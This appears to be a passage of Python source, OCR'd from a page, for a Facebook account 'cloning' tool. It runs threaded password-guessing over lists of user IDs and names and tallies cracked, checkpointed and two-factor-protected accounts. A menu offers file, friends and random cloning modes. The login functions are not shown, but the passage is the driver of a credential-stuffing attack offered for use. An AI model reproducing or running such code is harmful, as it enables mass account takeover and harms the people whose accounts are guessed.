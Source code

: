                 with tred(max_workers=30) as crack_submit:
                        clear()
                        total_ids = str(len(id))
                        print(' [+] TOTAL IDS : \033[1;32m'+total_ids)
                        print("\033[1;32m [+] CLONING STARTED")
                        print('\033[1;97m [+]-------------------------------------------------------')
                        for user in id:
                                ids,names = user.split('|')
                                passlist = plist
                                if mthd in ['1','01']:
                                        crack_submit.submit(ffb,ids,names,passlist)
                                elif mthd in ['2','02']:
                                        crack_submit.submit(api,ids,names,passlist)
                                else:
                                        crack_submit.submit(api1,ids,names,passlist)
                print('\033[1;37m')
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] THE PROCESS HAS COMPLETED')
                print(' [+] \033[1;32m [+] Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                print('\033[1;97m [+]-------------------------------------------------------')
                input(' [+] PRESS ENTER TO BACK ')
                os.system('python JaRedDtOol.py')
                menu() 
        except requests.exceptions.ConnectionError:
                exit(f' [+] NO INTERNET CONNECTION')
        except (KeyError,IOError):
                print(f' [+] NO FRIENDS FOR {USERR}')
                time.sleep(3)
                public()
def menu():
        global lim,tp
        try:
                clear()
                sj="server on"
                if "server on" in sj:
                        #clear()
                        print(' [1] FILE CLONING\n [2] FRIENDS CLONING\n [3] RANDOM CLONING \n [0] REPORT PROBLEMS')
                        print('\033[1;97m [+]-------------------------------------------------------')
                        xd=input(' [+] CHOOSE OPTION----> ')
                        if xd in ['1','01']:
                                file_cloning()
                        elif xd in ['2','02']:
                                public()
                        elif xd in ['3','03']:
                                mirwais001()                              
                        elif xd in ['0','00']:
                                exit
                                print('\033[1;96m [+] THANKS FOR USING')
                                
                        else:
                                print('\033[1;91m [+] OPTION NOT FOUND IN MENU...');time.sleep(1)
                                menu() 
                else:
                        print(' [+] WILL BE BACK SOON')
 